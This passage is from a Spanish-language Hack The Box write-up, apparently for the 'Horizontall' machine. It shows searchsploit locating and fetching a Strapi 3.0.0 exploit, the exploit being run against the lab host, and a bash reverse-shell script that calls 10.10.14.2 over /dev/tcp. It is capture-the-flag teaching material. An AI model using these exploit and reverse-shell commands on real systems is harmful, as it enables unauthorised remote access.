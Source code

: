 ```go
searchsploit strapi 3.0.0
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/1c89814e-89d6-486d-b481-4604aeb0a927">
</p>

```go
searchsploit -m miltiple/webapps/50239.py
```

<p align="justify">
  Descargamos el exploit para poder realizar las pruebas de exploitación.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/0cf47b3a-9aa7-4294-98ee-44771bd0a227">
</p>

<p align="justify">
  Antes de intentar las vulnerabilidades mencionadas, probamos la conexión utilizando Netcat y confirmamos que la conexión es exitosa. Sin embargo, no tenemos acceso a una terminal completa en esta instancia.
</p>

```go
python exploit_strapi.py "http://api-prod.horizontall.htb/"
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/d42545aa-5c4d-4734-a25c-23f35b4def69">
</p>

<p align="justify">
  Para superar esta limitación, realizamos una búsqueda en el siguiente enlace y encontramos una técnica para obtener una shell inversa utilizando Netcat adjuntando instrucciones en un archivo index.html que estaremos hosteando desde la máquina victima.
</p>

- [Reverse Shell - Tool](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
#!/bin/bash

bash -c "bash -i /dev/tcp/10.10.14.2/443 0>&1"
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/ec11fcba-51c4-4107-9d9a-ca4a9a25d739">
</p>

<p align="justify">
  Ahora nos podemos a hostear un servidor HTTP con Python.
</p>
